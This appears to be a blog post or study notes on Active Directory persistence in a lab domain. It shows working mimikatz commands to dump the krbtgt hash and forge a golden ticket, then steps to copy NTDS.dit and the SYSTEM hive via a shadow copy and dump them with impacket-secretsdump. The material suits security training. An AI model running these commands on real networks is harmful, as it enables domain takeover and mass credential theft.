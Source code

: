 ```yaml
---
layout: post
title: Active Directory Persistence
titledate: 10/01/23
tags: ["infosec", "offsec", "ad", "powershell", "persistence"]
---
```


#### golden ticket

Silver Tickets create a TGS ticket to access a specific service but Golden Tickets give us access to the entire domain's resources

first let's try to laterally move from a windows client to the DC as the current user

    PS> PsExec64.exe \\DC1 cmd.exe

- Access Denied

without proper privs we are unable to do so

we will need Domain Admin Group account access or access to the DC

we can simulate this by use rdping to the DC with an admin account and using mimikatz to dump the krbtgt account

    mimikatz# privilege::debug

    mimikatz# lsadump::lsa /patch

### now that we have the NTLM hash of the krbtgt account and the domain SID we forge and inject our golden ticket

creating and injecting a golden ticket does not require any admin privs and can be done from a computer not conneted to the domain

    mimikatz# kerberos::purge

first we need to delete any existing kerberos tickets

now we'll supply our obtained domain SID and the /krbtgt options in mimikatz

    mimikatz# kerberos::golden /user:jim /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

now with our golden ticket we can try our lateral movement again in a new comman prompt INSIDE mimikatz to leverage our ticket in memory

    mimikatz# misc::cmd

    C:> PsExec.exe \\dc1 cmd.exe

check our groups

    C:> whoami /groups

if we uses PSExec with the ip we would still get Access Denied

    C:> psexec.exe \\192.168.50.70 cmd.exe

#### shadow copies

vshadow is a utility that lets us create a Shadow Copy so we can extract the Active Directory Database NTDS.dit file

we begin by logging into the DC as an admin user 

then start elevated prompt the vshadow utility

    C:> vshadow.exe -nw -p  C:

now copy the AD database from the shadow copy to the C: root 

    C:> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

now we sav the SYSTEM hive from the registry

    C:> reg.exe save hklm\system c:\system.bak

now we copy these 2 files to our kali system and use impacket

    $ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

now we can use these NTLM hashes and Kerberos keys in either pth techniques or crack them

